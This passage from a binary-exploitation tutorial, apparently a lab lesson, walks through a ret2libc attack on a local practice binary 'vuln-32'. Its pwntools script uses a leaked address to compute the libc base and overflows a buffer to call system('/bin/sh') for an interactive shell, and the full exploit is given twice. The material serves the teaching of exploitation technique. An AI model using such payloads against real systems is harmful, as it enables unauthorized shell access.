 Yup, does what we expected.

> Your address of the system might end in different characters - you just have a different libc version

#### Exploitation

Much of this is as we did with PIE.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
```

Note that we include the libc here - this is just another `ELF` object that makes our lives easier.

Parse the address of the system and calculate the libc base from that (as we did with PIE):

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

Now we can finally ret2libc, using the `libc` `ELF` object to really simplify it for us:

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

#### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```